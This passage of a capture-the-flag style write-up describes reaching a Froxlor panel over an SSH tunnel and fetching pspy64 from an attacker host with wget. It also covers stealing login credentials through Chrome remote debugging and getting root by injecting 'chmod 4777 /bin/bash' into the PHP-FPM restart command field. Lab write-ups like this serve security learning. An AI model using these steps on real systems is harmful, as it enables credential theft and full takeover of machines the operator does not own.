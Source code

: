 - Find the Process ID (PID): Run ```ps aux | grep ssh``` to locate the PID of the SSH process that set up the tunnel. Look for the command with the ```-L``` option.

- Kill the Process: Use ```kill <PID>``` to terminate the process. If you’re unsure which one to kill, you can use ```killall ssh``` to terminate all SSH processes, but be cautious if you have other SSH sessions running.

After that I was ready to visit ```http://127.0.0.1:8080/``` and see a Froxlor login page.

At first, I wasn’t sure how to approach the Froxlor login page since none of the default credentials worked, and it didn’t seem vulnerable to typical attack vectors. This was the point where I had to dig deeper and explore other solutions. My first step was hosting the ```pspy64``` utility on my machine and fetching it on the target using the ```wget``` command.

```
wget http://10.10.14.5:8000/pspy64
```

Also:

```
chmod +x pspy64
```

Running the ```pspy64``` utility revealed that Chrome debugging might be active on the machine, which seemed a bit unusual. In the end, I set up an SSH tunnel for all the high ports and started digging deeper. The first step was opening Chromium on my Kali machine and navigating to ```chrome://inspect/#devices```. From there, I had to input all the ports I had forwarded earlier. [This article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) has helped me a lot.

Clicking 'Inspect' (on the same screen where I added the ports) finally allowed me to retrieve the credentials. In the window that opened, I navigated to the 'Network' tab, then set the smaller sub-section to the 'Payload' tab. From there, I examined the POST request to ```/index.php.```

## Web Panels, SUID permission on the ```/bin/bash```, Bash -p for Privilege Escalation etc.

After logging into the Froxlor dashboard it was time to look around and try out some privilege escalation tricks.

While exploring, I discovered a potential Remote Code Execution (RCE) vulnerability in the PHP-FPM Versions section. I found that under PHP settings, I could create a new PHP version, and the RCE was triggered through the ```PHP-FPM restart command``` input field.

To escalate privileges, I opted to set the SUID permission on the ```/bin/bash binary```.

```
chmod 4777 /bin/bash
```

By issuing the ```chmod 4777 /bin/bash``` command through the PHP-FPM restart input field, I set the SUID bit on the ```/bin/bash``` binary. This made the bash executable run with root privileges regardless of the user executing it. Consequently, when I accessed bash via SSH, I had root access, allowing me to fully control the system.

After entering the command and clicking 'Save,' I needed to restart PHP-FPM for the changes to take effect. This could be done under System > Settings. I toggled the switch off, saved the changes, and then turned it back on, which successfully executed the command.
